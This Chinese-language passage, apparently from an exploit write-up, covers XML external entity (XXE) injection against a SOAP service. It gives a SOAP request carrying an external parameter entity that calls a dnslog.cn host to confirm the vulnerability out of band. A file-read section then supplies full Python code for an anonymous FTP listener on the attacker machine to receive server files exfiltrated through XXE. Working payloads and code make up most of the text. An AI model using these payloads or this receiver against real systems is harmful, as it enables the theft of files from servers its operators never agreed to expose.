 ```
      <iup:getResult>
         <!--Optional:-->
         <iup:string><![CDATA[
<!DOCTYPE foo [<!ENTITY % aaa SYSTEM "http://666.04bx1e.dnslog.cn">%aaa;]>
<xxx/>]]></iup:string>
      </iup:getResult>
   </soapenv:Body>
</soapenv:Envelope>
```

注意第一个 `% aaa` 的 `%` 和 `aaa` 之间是有空格的。

![image](https://user-images.githubusercontent.com/84888757/223006841-817a9b7e-c512-4ba5-8239-17702459e49f.png)



<div align=center ><img width="700" src="https://user-images.githubusercontent.com/84888757/223006871-2b35b2e5-4019-412f-a7c9-512777ade7bc.png" /></div>

## 2.3 文件读取利用
### 2.3.1 攻击机起一个FTP服务器
```bash
python3 FtpServer.py
```

这里是为了之后接收 `xxe` 打回来的服务器文件信息。

```python
import os
from pyftpdlib.authorizers import DummyAuthorizer
from pyftpdlib.handlers import FTPHandler
from pyftpdlib.servers import FTPServer

def main():
    # 实例化虚拟用户, 这是FTP验证的首要条件
    authorizer = DummyAuthorizer()
    # Define a new user having full r/w permissions and a read-only
    # 添加用户权限和路径, 括号内的参数为(用户名, 密码, 用户目录, 权限)
    # authorizer.add_user('user', '12345', '.', perm='elradfmwMT')

    # anonymous user , 只需要路径, 指定当前路径
    authorizer.add_anonymous('.')

    # 初始化 FTP handler class
    handler = FTPHandler
    handler.authorizer = authorizer

    # Define a customized banner (string returned when client connects)
    handler.banner = "pyftpdlib based ftpd ready."

    # 监听ip和port
    # Instantiate FTP server class and listen on 0.0.0.0:2121
    address = ('0.0.0.0', 2121)
    server = FTPServer(address, handler)
    # set a limit for connections
    # server.max_cons = 256
    # server.max_cons_per_ip = 5

    # start ftp server
    server.serve_forever()

if __name__ == '__main__':
    main()
```
